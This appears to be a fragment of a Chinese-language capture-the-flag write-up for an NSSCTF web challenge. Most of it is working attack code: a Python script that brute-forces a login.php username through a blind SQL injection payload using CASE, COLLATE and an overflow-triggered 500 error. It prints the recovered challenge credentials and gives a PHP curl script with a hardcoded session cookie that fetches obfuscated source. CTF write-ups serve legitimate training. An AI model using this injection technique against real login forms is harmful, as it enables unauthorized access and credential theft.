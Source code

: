 还有个脚本

```python
import requests

url = "http://1.14.71.254:28522/login.php"
table = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@$_"
s = ""
for i in range(300):
    for j in range(len(table)):
        data = {
            "password": "admin",
            "username": f"1'^CASE`username`like'{s + table[j]}%'COLLATE'utf8mb4_bin'WHEN'1'THEN'0'ELSE''+100E291+1.7976931348623158E308+''end||'"
        }
        res = requests.post(url, data=data)
        if res.status_code == 200:
            s += table[j]
            print(s)
            break

```

利用了CASE的另一种用法，，如果匹配为真进入`WHEN-THEN`语句，`WHEN 1 THEN 0`,服务器响应就是为`200`

匹配为错，就是500

爆出来的`nssctfwabbybaboo!@$_!!`这个`_`可能是`%`，所以需要试一下

最后得到账号密码

```
nssctfwabbybaboo!@$%!!
PAssw40d_Y0u3_Never_Konwn!@!!
```

登陆后发现混淆代码，提示有一个`1Nd3x_Y0u_N3v3R_Kn0W.php`

**先解混淆**

主页面查看源码发现是由`phpjiami`进行混淆的

```
https://github.com/wenshui2008/phpjiami_decode
```

我们先用脚本把混淆代码保存下来再解密

```php
<?php
$url ="http://1.14.71.254:28706/login.php";
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt ($ch, CURLOPT_COOKIE, "PHPSESSID=00110b2656dbd4b5dd347f793e516da1");
$result = curl_exec($ch);
curl_close($ch);
echo urlencode($result);
file_put_contents("pop.php",$result);
?>
```
